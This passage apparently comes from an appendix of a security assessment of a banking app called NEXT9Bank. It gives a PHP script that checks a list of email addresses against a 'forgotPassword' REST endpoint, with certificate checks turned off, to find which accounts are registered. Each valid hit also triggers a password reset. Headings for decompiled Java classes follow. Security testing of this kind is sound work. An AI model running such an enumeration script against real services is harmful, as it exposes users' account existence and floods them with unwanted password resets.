 This Script takes a list of email addresses and prints all of them which are already registered in the system to the shell. To do so it sends a POST Request like the scripts above to the REST Service "forgotPassword". After that it parsed the response, represented by a JSON File. If the field status of this field equals 1, the app generated a new password and sent it via email to the provided address. Else
the provided email denied.
\begin{lstlisting}
<?php

if(!$argv[1])
die("Please provide list of email adresses");
$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);

echo "Valid Accounts:\n";
foreach($emailList as $email)        
if (validateEmail($email))
echo $email."\n";

function validateEmail($email) {
$service_url = 'https://192.168.56.101/rest/index';
$curl = curl_init($service_url);
$curl_post_data = array(
'service' => "forgotPassword",
'email' => $email );

curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
$curl_response = curl_exec($curl);
if ($curl_response === false) {
$info = curl_getinfo($curl);
curl_close($curl);
die('error occured during curl exec. Additioanl info: ' . var_export($info));
}
curl_close($curl);
$decoded = json_decode($curl_response,true);
if ($decoded['status']['code'] == 1) {
//die('error occured: ' . $decoded->response->errormessage);
return true;
}
else {
return false;
}
}

?>
\end{lstlisting}

\chapter{Decompiled Java-SCS of NEXT9Bank}

These are the classes of the package \textit{de.next9bank.scs}. The source code of third party libraries has been omitted.


\section{Package \textit{gui.controllers}}

\subsection{CreateTanController}

